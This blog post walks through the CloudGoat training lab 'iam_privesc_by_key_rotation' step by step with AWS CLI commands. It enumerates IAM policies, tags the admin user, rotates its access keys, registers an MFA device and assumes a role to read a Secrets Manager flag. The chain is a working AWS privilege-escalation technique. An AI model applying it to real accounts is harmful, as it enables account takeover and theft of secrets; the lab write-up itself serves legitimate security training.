+++
title = 'Hands on Cloud Pentesting: 2 - Cloudgoat iam_privesc_by_key_rotation'
date = 2025-06-07T18:50:02+05:30
draft = false
series = "Hands on Cloud Pentesting"
tags = ["cloud","aws"]
+++

<!--more-->

## iam_privesc_by_key_rotation (Easy)

[Scenario Page](https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/cloudgoat/scenarios/aws/iam_privesc_by_key_rotation/README.md)
### Description
Exploit insecure IAM permissions to escalate your access. Start with a role that manages other users' credentials and find a weakness in the setup to access the "admin" role. Using the admin role, retrieve the flag from Secrets Manager.

### Scenario Goal(s)
Retrieve AWS secret

### Solution

Using the following command, we can start the cloudgoat scenario.
```bash
cloudgoat create iam_privesc_by_key_rotation
```
We start off with the provided AWS access key and secret key by configuring a new profile using AWS CLI.

We are now a user called "manager_cgidxwnp5b4tkv". Trying out the usual IAM enumeration commands, we can find our that we are allowed to perform various actions such as list user, roles, view policies etc. Lets check them out one by one. The first thing we can check is the list of users that are present since the scenario requires some privilege escalation.
```bash
aws iam list-users --profile acc-manager
{
    "Users": [
        {
            "Path": "/",
            "UserName": "admin_cgidxwnp5b4tkv",
            "UserId": "AIDASA4MJEJACD6ISH2Q6",
            "Arn": "arn:aws:iam::139343766080:user/admin_cgidxwnp5b4tkv",
            "CreateDate": "2025-06-07T13:25:00Z"
        },
        {
            "Path": "/",
            "UserName": "developer_cgidxwnp5b4tkv",
            "UserId": "AIDASA4MJEJAKYON365RY",
            "Arn": "arn:aws:iam::139343766080:user/developer_cgidxwnp5b4tkv",
            "CreateDate": "2025-06-07T13:25:00Z"
        },
        {   # Ignore this, its my cloudgoat manager user
            "Path": "/",
            "UserName": "manager",
            "UserId": "AIDA**",
            "Arn": "arn:aws:iam::139241966080:user/manager",
            "CreateDate": "2025-04-08T07:40:01Z"
        },
        {
            "Path": "/",
            "UserName": "manager_cgidxwnp5b4tkv",
            "UserId": "AIDASA4MJEJAIXQQO6QDX",
            "Arn": "arn:aws:iam::139343766080:user/manager_cgidxwnp5b4tkv",
            "CreateDate": "2025-06-07T13:25:00Z"
        }
    ]
}
```
Here we can see 3 IAM Users `manager_cgidxwnp5b4tkv`(which is our current user), `developer_cgidxwnp5b4tkv` and `admin_cgidxwnp5b4tkv`.

Next lets check out the list of roles.
```bash
aws iam list-roles --profile acc-manager
...
...
# Ignoring all AWSService roles
{
    "Path": "/",
    "RoleName": "cg_secretsmanager_cgidxwnp5b4tkv",
    "RoleId": "AROASA4MJEJACMEMRYWPK",
    "Arn": "arn:aws:iam::139343766080:role/cg_secretsmanager_cgidxwnp5b4tkv",
    "CreateDate": "2025-06-07T13:25:04Z",
    "AssumeRolePolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Principal": {
                    "AWS": "arn:aws:iam::139343766080:root"
                },
                "Action": "sts:AssumeRole",
                "Condition": {
                    "Bool": {
                        "aws:MultiFactorAuthPresent": "true"
                    }
                }
            }
        ]
    },
    "Description": "Access to view secrets",
    "MaxSessionDuration": 3600
}
```
There is one role which stands out to us which has a Description `Access to view secrets` which indicates that user with this role can read secrets which is our scenario goal. We can confirm that this role does what it says by using the following commands
```bash
aws iam list-attached-role-policies --role-name cg_secretsmanager_cgidxwnp5b4tkv --profile acc-manager # to get policy arn

aws iam get-policy --policy-arn <policy_arn> --profile acc-manager # to get policy version id

aws iam get-policy-version --policy-arn <policy_arn> --version-id <version_id> --profile acc-manager
```

Here we can see that this role has the permission to ListSecrets all secrets and GetSecretValue on one particular secret.

Now that the final goal is confirmed, lets look at how we can get there. Lets take a look at the attached and inline policies for our user.

The attached user policy is [IAMReadOnlyAccess](https://docs.aws.amazon.com/aws-managed-policy/latest/reference/IAMReadOnlyAccess.html) which is an AWS managed policy which allows actions `iam:Get*` and `iam:List*`.

Lets take a look at the other 2 policies.
```bash
aws iam get-user-policy --user-name manager_cgidxwnp5b4tkv --policy-name SelfManageAccess --profile acc-manager
{
    "UserName": "manager_cgidxwnp5b4tkv",
    "PolicyName": "SelfManageAccess",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Action": [
                    "iam:DeactivateMFADevice",
                    "iam:GetMFADevice",
                    "iam:EnableMFADevice",
                    "iam:ResyncMFADevice",
                    "iam:DeleteAccessKey",
                    "iam:UpdateAccessKey",
                    "iam:CreateAccessKey"
                ],
                "Condition": {
                    "StringEquals": {
                        "aws:ResourceTag/developer": "true"
                    }
                },
                "Effect": "Allow",
                "Resource": [
                    "arn:aws:iam::139343766080:user/*",
                    "arn:aws:iam::139343766080:mfa/*"
                ],
                "Sid": "SelfManageAccess"
            },
            {
                "Action": [
                    "iam:DeleteVirtualMFADevice",
                    "iam:CreateVirtualMFADevice"
                ],
                "Effect": "Allow",
                "Resource": "arn:aws:iam::139343766080:mfa/*",
                "Sid": "CreateMFA"
            }
        ]
    }
}
```

Most AWS testing requires the skill off reading and understanding AWS policies. [this](https://web.archive.org/web/20250319150547/https://start.jcolemorrison.com/aws-iam-policies-in-a-nutshell/) is the blog that appears at the top of google(just below [amazons own docs](https://docs.aws.amazon.com/IAM/latest/UserGuide/reference_policies_elements.html)) and it has helped me grasp a few concepts better and based on that I'll try to explan the above policy.

The "Who" in this case, or rather the "Principal", is not mentioned here since this is an inline policy that is only there for the user "manager_cgidxwnp5b4tkv" so the policy only applies to this user.

"What" we can do, or the "Action", is defined as 2 separate "what's". The first set "Allows" us to `iam:DeactivateMFADevice`,`iam:GetMFADevice` etc on the Resource - all users and mfa devices, if the condition - [resource has tag](https://docs.aws.amazon.com/IAM/latest/UserGuide/reference_policies_condition-keys.html#condition-keys-resourcetag) = developer, is true. This means that we can do actions like `iam:CreateAccessKey` if the resource has the tag `developer` set. The second set "Allows" us to create and delete virtual mfa devices.

The [iam:CreateAccessKey](https://hackingthe.cloud/aws/exploitation/iam_privilege_escalation/#iamcreateaccesskey) permission stands out as we can use it to create an access key for any other user, provided the condition is met.

```bash
aws iam get-user-policy --user-name manager_cgidxwnp5b4tkv --policy-name TagResources --profile acc-manager
{
    "UserName": "manager_cgidxwnp5b4tkv",
    "PolicyName": "TagResources",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Action": [
                    "iam:UntagUser",
                    "iam:UntagRole",
                    "iam:TagRole",
                    "iam:UntagMFADevice",
                    "iam:UntagPolicy",
                    "iam:TagMFADevice",
                    "iam:TagPolicy",
                    "iam:TagUser"
                ],
                "Effect": "Allow",
                "Resource": "*",
                "Sid": "TagResources"
            }
        ]
    }
}
```
This policy allows us to tag or untag any resource. Using this, we can tag any user with the `developer` tag and hence meet the above condition to CreateAccess Key. Now that we can escalate privileges to any user, lets check out what the `admin_cgidxwnp5b4tkv` user is allowed to do.

The admin user has another policy called `AssumeRoles`. Lets see what that does:
```bash
aws iam get-user-policy --user-name admin_cgidxwnp5b4tkv --policy-name AssumeRoles --profile acc-manager
{
    "UserName": "admin_cgidxwnp5b4tkv",
    "PolicyName": "AssumeRoles",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Action": "sts:AssumeRole",
                "Effect": "Allow",
                "Resource": "arn:aws:iam::139343766080:role/cg_secretsmanager_cgidxwnp5b4tkv",
                "Sid": "AssumeRole"
            }
        ]
    }
}
```
This shows that the admin user is allowed to Assume the role of `cg_secretsmanager_cgidxwnp5b4tkv` which is our target role. So lets proceed to privesc to the admin user.

```bash
aws iam tag-user --user-name admin_cgidxwnp5b4tkv --tags Key=developer,Value=true --profile acc-manager
```
First we tag the admin user with developer key and value set to true but then when we try to create access key it fails because there are already 2 access keys for the admin user. We can list the access keys and then delete one of them using the following commands:
```bash
aws iam list-access-keys --user-name admin_cgidxwnp5b4tkv --profile acc-manager
aws iam delete-access-key --access-key-id <access_key_id> --user-name admin_cgidxwnp5b4tkv --profile acc-manager
```
Now we can create another access key and configure the admin account profile


The last step is to assume the role which allows us access to read the secrets but there is another "Condition" in the Trust Policy of the role which we can see in the "list-roles" output:
```json
...
"Condition": {
"Bool": {
    "aws:MultiFactorAuthPresent": "true"
    }
}
...
```
This means that to assume the role, our admin account needs to have multifactor authentication enabled. The SelfManageAccess policy of `manager_cgidxwnp5b4tkv` user allows us to add mfa devices and enable/disable them for the admin user so using that account we can follow [these steps](https://cjihrig.com/aws_cli_mfa) to set up mfa for the `admin_cgidxwnp5b4tkv` account.
```bash
aws iam create-virtual-mfa-device --virtual-mfa-device-name <device_name> --outfile ./<outfile>.png --bootstrap-method QRCodePNG --profile acc-manager
```
Using the QR code generated by the above step we can set up Authenticator and use 2 concecutive codes for enabling mfa

```bash
aws iam enable-mfa-device --user-name admin_cgidxwnp5b4tkv --serial-number <serial_number_of_virtual_mfa_device> --authentication-code1 <auth_code1> --authentication-code2 <auth_code2> --profile acc-manager
```
Now if we check list mfa devices we can see one is enabled.


With this we can move on to the final step, that is assuming the `cg_secretsmanager_cgidxwnp5b4tkv` role

We have to add the serial number and token code to the assume code command as per the man page.

```bash
aws sts assume-role --role-arn <"arn:aws:iam::139343766080:role/cg_secretsmanager_cgidxwnp5b4tkv"> --role-session-name testadmin --profile acc-admin --serial-number <serial_number_of_virtual_mfa_device> --token-code <auth_code>
```
This gives us an Access key id, secret key and a Session Token.

Once we configure the new profile, we can now use the secrests manager to list and get the secret/flag.
```bash
aws secretsmanager list-secrets --profile acc-testadmin

aws secretsmanager get-secret-value --profile acc-testadmin --secret-id <secret_id>
```

> Flag = flag{14m_PERM15510N5_4Re_5C4R_883ea0d58d9602758b813284a8e329872c957ee5360901bae2f08f01289f8d2b}

Stop the scenario by
```bash
cloudgoat destroy iam_privesc_by_key_rotation
```